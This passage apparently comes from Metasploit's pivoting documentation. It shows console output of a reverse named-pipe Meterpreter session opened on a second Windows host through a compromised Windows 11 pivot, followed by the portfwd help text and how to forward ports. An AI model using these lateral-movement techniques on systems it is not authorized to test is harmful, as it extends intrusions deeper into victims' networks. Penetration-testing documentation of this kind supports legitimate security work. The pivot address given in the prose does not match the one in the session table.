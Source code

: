 After running the payload on the final target machine a new session will open, via the Windows 11 169.254.16.221 pivot.
```msf
msf payload(windows/x64/meterpreter/reverse_named_pipe) > [*] Meterpreter session 2 opened (Pivot via [172.19.182.171:4578 -> 169.254.16.221:49674]) at 2022-06-09 13:34:32 -0500

msf payload(windows/x64/meterpreter/reverse_named_pipe) > sessions

Active sessions
===============

  Id  Name  Type                     Information                                Connection
  --  ----  ----                     -----------                                ----------
  1         meterpreter x64/windows  WIN11\msfuser @ WIN11          172.19.182.171:4578 -> 172.19.185.34:49674 (172.19.185.34)
  2         meterpreter x64/windows  WIN2019\msfuser @ WIN2019      Pivot via [172.19.182.171:4578 -> 172.19.185.34:49674]
                                                                                 (169.254.204.110)

```
## Pivoting External Tools

### portfwd
*Note: This method is discouraged as you can only set up a mapping between a single port and another target host and port, so using the socks module below is encouraged where possible. Additionally this method has been depreciated for some time now.*

#### Local Port Forwarding
To set up a port forward using Metasploit, use the `portfwd` command within a supported session's console such as the Meterpreter console. Using `portfwd -h` will bring up a help menu similar to the following:

```msf
meterpreter > portfwd -h
Usage: portfwd [-h] [add | delete | list | flush] [args]


OPTIONS:

    -h   Help banner.
    -i   Index of the port forward entry to interact with (see the "list" command).
    -l   Forward: local port to listen on. Reverse: local port to connect to.
    -L   Forward: local host to listen on (optional). Reverse: local host to connect to.
    -p   Forward: remote port to connect to. Reverse: remote port to listen on.
    -r   Forward: remote host to connect to.
    -R   Indicates a reverse port forward.
meterpreter >
```

To add a port forward, use `portfwd add` and specify the `-l`, `-p` and `-r` options at a minimum to specify the local port to listen on, the report port to connect to, and the target host to connect to respectively.
